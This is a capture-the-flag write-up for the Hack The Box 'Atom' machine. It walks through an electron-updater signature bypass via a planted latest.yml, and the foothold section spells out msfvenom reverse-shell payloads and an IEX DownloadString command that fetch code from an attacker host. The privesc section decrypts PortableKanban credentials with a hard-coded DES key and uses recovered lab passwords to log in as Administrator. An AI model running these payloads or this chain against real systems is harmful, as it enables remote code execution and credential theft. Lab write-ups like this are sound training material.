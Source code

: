 ![](atom_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

__IP-ADDR:__ 10.10.10.237 atom.htb

__nmap scan:__
```bash
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp  open  msrpc        Microsoft Windows RPC
443/tcp  open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6379/tcp open  redis        Redis key-value store
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows
```

* Windows version: `OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)`
* Nothing in ssl certificate.
* Radis rewuirer authAuthentication, [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

      ❯ redis-cli -h 10.10.10.237
      10.10.10.237:6379> info
      NOAUTH Authentication required.

* SMB allowed access without password

  ![](screenshots/smb-share.png)

  Found a pdf file and some empty directories.
* There a file available for download on http server `/releases/heed_setup_v1.0.0.zip`

  ![](screenshots/web-page.png)

* zip archive contains a windows execuatable.

      ❯ file heedv1-Setup-1.0.0.exe
      heedv1-Setup-1.0.0.exe: PE32 executable (GUI) Intel 80386, for MS Windows, Nullsoft Installer self-extracting archive

* pdf file contains some information about this exe file.

  ![](screenshots/heed-pdf-doc.png)

pdf also talking about update.

![](screenshots/pdf-update-note.png)

And if we reverse the executable with `7z` in linux and find the `resources` folder under `$PLUGINSDIR`, which contains the  electron app source codes in `app.asar` file. We can decompress `app.asar` file with [`asar`](https://github.com/electron/asar) tool to get the application source javascript files.
```bash
❯ npx asar extract app.asar dest-dir
```

![](screenshots/app-packages.png)

This application using vulnerable version of `electron-updater` package.

* Vulnerability found from [snyk VulnerabilityDB](https://snyk.io/vuln/SNYK-JS-ELECTRONUPDATER-561421)
* __electron-builder's Electron-Updater PoC blog from [blog.doyensec.com](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)__

# Foothold:Electron_Updater-RCE

__Exploit surface:__ The signature verification check performed by electron-builder is simply based on a string __comparison between the installed binary’s publisherName and the certificate’s Common Name attribute of the update binary__. During a software update, the application will request a file named __`latest.yml`__ from the __update server__, which contains the definition of the new release - including the binary filename and hashes.

* our application is using smb share's client folder for new `latest.yml` and we have access to these "client" folders.

__Other part:__ an attacker could __bypass the entire signature verification__ by triggering a parse error in the script. This can be easily achieved by __using a filename containing a single quote (`'`) and then by recalculating the file hash to match the attacker-provided binary__ (using `shasum -a 512 maliciousupdate.exe | cut -d " " -f1 | xxd -r -p | base64`).

* Found update process form  [electron docs](https://www.electron.build/auto-update#staged-rollouts)

## Exploit:auto_updater

__Generate reverse shell with msfvenom__
```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f exe -o "rev'Shell.exe"
```

__generate sha512 bash encoded hash__
```bash
❯ sha512sum rev\'Shell.exe | cut -d " " -f1 | xxd -r -p | base64 -w 0
77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

__latest.yml__
```yml
version: 1.0.1
path: http://10.10.15.71/rev'Shell.exe
sha512: 77b46759lH58s81l3tMaetP541XEe+XJ2V+IEPOC5dF27MjxROsm/JJMVR7tt2CN/hmVikE5d8Wa9VuxMAnFNw==
```

__upload `latest.yml` in the smb share's "client" folder.__

![](screenshots/rev-shell.png)


__Getting msf shell with msfvenom paylaod__
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.71 LPORT=4141 -f psh -o msf_shell.ps1
```

Execute
```bash
IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.71/msf_shell.ps1')
```

# Privesc:Kanban_decrypt

* Only one user on the box "jason"

There is radis server running, get in the nmap scan, so finding radis server creds: `C:\Program Files\Redis\redis.windows-service.conf`

![](screenshots/radis-pass.png)
<!--kidvscat_yes_kidvscat-->

Found "Administrator" Encrypted Password from redis database, But don't find the encryption type.

![](screenshots/redis-dump.png)
<!--Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi-->

Running winpeas found user "jason" password but it is not working.

![](screenshots/winpeas-win-creds.png)

Enumerating user "jason" home folder find [PortableKanban](https://www.atlassian.com/agile/kanban) in `C:\Users\jason\Downloads\PortableKanban`.

from kanban config file found that radis is useing by kanban.

![](screenshots/kanban-config.png)

that looking that encrypted password from config, they both looks same.

PortableKanBan stores credentials in an encrypted format and also found a script for decrypt this from [ExploitDB](https://www.exploit-db.com/exploits/49409).

```py
import base64
from des import * #python3 -m pip install des

def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print(decode("Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"))
```

Run the script give decrypted password
<!--
jason:kidvscat_electron_@123
administrator:kidvscat_admin_@123
-->

Checking if that password is working
```bash
$username = "domain\Administrator"
$password = "kidvscat_admin_@123" | ConvertTo-SecureString -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password
$s = New-PSSession -Credential $Cred
Invoke-Command -Session $s -Scriptblock {whoami}
```

![](screenshots/admin-pass-check.png)

We can get the Administrator shell with `evil-winrm`

```bash
❯ evil-winrm -i 10.10.10.237 -u administrator -p 'kidvscat_admin_@123'
```

![](screenshots/atom-rooted.png)

# PrintNightmare

- [ ] TODO